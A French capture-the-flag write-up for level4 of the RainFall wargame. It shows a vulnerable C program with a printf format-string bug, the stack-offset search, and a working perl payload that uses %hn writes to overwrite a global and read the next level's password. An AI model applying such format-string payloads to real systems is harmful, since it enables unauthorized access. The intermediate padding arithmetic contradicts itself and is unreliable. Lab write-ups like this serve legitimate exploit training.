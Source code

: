 # level4 :

pass : `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

## Source :

```c=
#include <stdio.h>

void	p(char *str) {
	printf(str);
}

void	n() {
	// char *fgets(char *s, int size, FILE *stream);
	char str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	p(str);
	void	*m = 0x8049810;  // bss segment finish at 0x08049814
	if (m == 0x1025544) {
		system("/bin/cat /home/user/level5/.pass");
	}
}

void	main() {
	n();
}
```

## Recherche :

Comme pour le level3, on cheche l'offset qui est cette fois à `12`

```
kali@kali:~/rainfall$ ./script.sh ./level4
Index 0
Index 1
Index 2
Index 3
Index 4
Index 5
Index 6
Index 7
Index 8
Index 9
Index 10
Index 11
Index 12
AAAA41414141
```

Cette fois on veut :
- écrire à l'addresse `0x08049810`
- l'offset pour y écrire est `12`
- la valeur que l'on veut mettre est `0x1025544`

Pour mettre cette valeur, on utilisera `%hn` qui permet d'écrire sur `2` octets.

Donc `0x5544` `0x08049810` et `0x0102` `0x08049812`
pour le little endian on a
Comme `0x5544` > `0x0102`, on les écrira dans l'ordre inverse.
- `0x0102` - `8 bits d'adresses` = `250`
- `0x5544` - `0x0102` = `21570`

On a doit dont décalé de 513 - 8 = 505 pour le second, puis de 17493 - 513 = 16980 pour le premier.

`./level4 < <(perl -e 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%16980x%13\$hn"')`

## Exploit :

```
level4@RainFall:~$ ./level4 < <(perl -e 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%21570x%13\$hn"')

.
.
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
